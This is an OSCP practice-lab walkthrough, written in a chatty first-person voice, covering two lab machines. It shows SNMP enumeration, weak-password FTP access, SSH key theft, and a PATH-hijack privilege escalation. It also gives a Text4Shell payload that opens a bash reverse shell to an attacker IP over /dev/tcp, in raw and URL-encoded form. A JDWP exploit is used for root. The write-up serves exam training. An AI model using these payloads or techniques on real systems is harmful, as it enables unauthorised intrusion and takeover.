



# OSCP-B Walkthrough

## ActiveDirectory
* <a href="#intial">Initial Escalation</a>


## Standalone Machines
* <a href="#149">.149</a>
* <a href="#150">.150</a>
* <a href="#151">.151</a>


<div id=149></div>

## .149

My friends have seen my OSCP-A walkthrough and told me I'm wasting time running my nmap scans on the OSCP. I've been in this industry for years and I'm being told not to use nmap. What is the world coming to?

Apparently it's come to <a href="https://github.com/Tib3rius/AutoRecon">autorecon</a>.

Rumour has that autorecon is built for the OSCP and that it makes life 100x easier. So autorecon it is.

```sudo autorecon 192.168.166.149```

<b>Note:</b> It's really important to run autorecon as root, otherwise it wont check UDP (<i>before my friends told me about autorecon I was not running UDP nmaps and wasted hours</i>)

<br>

Now would you look at that UDP 161, SNMP!

I'll save you the time, there's nothing exciting with 21, 22 or 80 - trust me.

So let's hack SNMP. I'm following <a href="https://hacktricks.boitatech.com.br/pentesting/pentesting-snmp">a guide from HackTricks</a> because thinking for yourself is wildly overrated.

Specifically this section on enumeration:

<br>

Let's try it out, install the packages first:

```apt-get install snmp-mibs-downloader```

```download-mibs```

```snmpwalk -v 1 -c public 192.168.166.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull```

<br>

Cool! `kiero` has a weak password. That's likely to be for the SSH or the FTP.

Now after trying to brute the password for `kiero` using `rockyou.txt` on SSH for like 20 minutes, then trying the same on FTP, I realised the password had to either be <i>really simple</i> or I was barking up the wrong tree. And then after trying seclists common passwords, I tried `kiero` as the password for ssh.

Where I went wrong? I only tried it on SSH.

So after giving up and looking for help on the OffSec discord, I found that `kiero` is an FTP user, not an SSH one.

```ftp kiero@192.168.166.149```

Password: `kiero`

<br>

Once again, I'm grumpy. That's like the 20th time I've been <i>this</i> close and had to look up the final step only for it to be some bullshit.

<b>Note:</b> IP change as I rage quit after the FTP thing

We'll run a quick `ls` to see what's happening:

<br>

Sweet, some keys. Let's grab them with

```get id_rsa```

```get id_rsa_2```

Taking a look around the file system here, I noticed the `home` directory has another user:

<br>

And that `john` has our local.txt. 

<br>

Given that for OSCP you need an interactive shell for your hack to count, I assume these private keys we found on the FTP are for his account. Let's close out the FTP connection and then:

```chmod 600 id_rsa```

```chmod 600 id_rsa_2```

```ssh -i /home/john/id_rsa john@192.168.184.149```

<br>

Nice one. We've popped the intial access. Now we need to figure out our privilege escalation. 

In john's home folder there's also a binary called `RESET_PASSWD`

<br>

By running `strings`, we can observer that this is likely what we saw in the SNMP walk.

<br>

Interestingly, this binary is executed as root and can be run by our user `john`. It calls the `chpasswd` binary. What we can do here is to include our home directory in the `PATH` and put some malicious code into a file called `chpasswd`. The RESET_PASSWD binary will then use our `chpasswd` before looking elsewhere for the real binary.

```export PATH=/home/john:$PATH```

<br>

The code we'll inject here is copying our SSH key over to the root users folder (I ended up running linPEAS and saw that PermitRootLogin is set to Yes):

```echo "cp /home/john/.ssh/authorized_keys /root/.ssh/" >> chpasswd```

```chmod +x chpasswd```

```./RESET_PASSWD```

<br>

And then we can simply kill our shell and log back in as root:

<br>

We're done! Nice work.


<br><br>
<div id=150></div>

## .150

You know the deal, autorecon.

```sudo autorecon 192.168.166.150```

<br>

Autorecon found ports 22 and 8080. It uses this sensible (but slightly tedius to navigate) folder structure:

<br>

Taking a look at port 22, there doesn't appear to be anything remarkable. This will probably be used for priv esc.

<figure>
  <br>
  <figcaption>I won't make you read every scan output just trust me</figcaption>
</figure><br>

Taking a look at the port 8080 feroxbuster, there are some interesting endpoints:

<br>

Let's pull them up (I'm one of those losers that uses a browser. Sorry I can't be a cool linux commandline hacker like you)

<br>

Okay there's an API, cool.

<br>

I've done enough boxes to know that this is by design. `Apache Commons Text 1.8`  Either a rabbit hole or the vuln, lets find out.

Google for that version:

<br>

Yeah that'll do it... And the changelog also mentioned this library is for `string interpolation` which probably means it's utilised in our `/search` page.

<br>

If you know what the parameters for an API request are, try giving it some...

<br>

Okay so we can't give it a result but we can sure give it a query. Let's look into text4shell.

I didn't like the look of that first repo, so I googled `text4shell github poc` and got <a href="https://github.com/808ale/CVE-2022-42889-Text4Shell-POC">this one</a>.

Running it, we get something like this:

<br>

So text4shell abuses the way these specific libraries parse strings and allows for this code exec using Java's .getRuntime.exec(). I didn't get any results from the `whoami`, so maybe we won't get any output at all?

As this is a walkthrough and not a "how I bashed my head against my keyboard really hard", I'll explain what happened.

This is a blind RCE, so we don't get any feedback from the API, but our commands <i>are being executed</i>. That is, if they're encoded. 

After some troubleshooting, I found that many POCs for text4shell always URL encode the payload characters and that the parameters for the command are parsed in as an array.

However, I still couldn't get anything to work. After giving up and searching the OffSec discord, I found that the only method that seemed to work was putting the command and args into an array. Such as:

```${script:js:java.lang.Runtime.getRuntime().exec(['bash','-c','exec bash -i >& /dev/tcp/192.168.45.164/4444 0>&1'])}```

Which after URL encoding is sent as a GET request:

```GET /search?query=%24%7Bscript%3Ajs%3Ajava%2Elang%2ERuntime%2EgetRuntime%28%29%2Eexec%28%5B%27bash%27%2C%27%2Dc%27%2C%27exec%20bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E164%2F4444%200%3E%261%27%5D%29%7D```

And with a listener on 4444, we caught it:

<br>

Now I'm going to be honest that's just some real bullshit. Some real "it's OSCP so the exploit has to be <i>different</i>" type beat. But whatever... we've got a shell now.

Let's try throwing our ssh key into the logged in `dev` users ssh config.

```mkdir /home/dev/.ssh```

```echo "(PUBLICKEY)" >> /home/dev/.ssh/authorized_keys```

And then from there we can ssh straight in:

```ssh dev@192.168.166.149```

<br>

We'll grab the cheeky local.txt file and look for a privilege escalation.

Now that we're in I'm going to launch <a href="https://github.com/peass-ng/PEASS-ng">linPEAS</a>.

This is going to be noisy, but we'll look for quick wins. The legend for linPEAS is as follows:

<br>

Any highlighted or interesting red results?

<br>

Interestingly there's a jdwp service running as root on port 8000. Port 8000 wasn't open but nevertheless - taking a quick google:

<br>

Let's throw that on the back burner while we finish looking through the results. As per the above, there does appear to be a listener on the localhost for port 8000. 

<br>

And there's something else... the root user can login via ssh:

<br>

Alrigghtttttttyyyy, let's take inventory.

* We're logged in as `dev`.
* We have a service apparently vulnerable to `rce` listening internally on `port 8000`.
* The `root` user is permitted to ssh.

Let's try that RCE. There's a POC on Github called <a href="https://github.com/hugsy/jdwp-shellifier">jdwp-shellifier</a>

I used wget to get the script on the .150 machine as Python is already installed. Ideally, knowing root can ssh in, instead of looking for anything fancy, we'll just copy and paste our ssh key into the root users directory:

<br>

We can see the last line there, we can see we need to trigger a ServerSocket using the command given. This can be done by creating another shell as dev and running that command, replacing `ip` with `localhost`

<br>

And ta-da!

<br>

Assuming all went well, we should now be able to simply ssh in as `root`.

<br>

Well done! Enjoy your 20 points.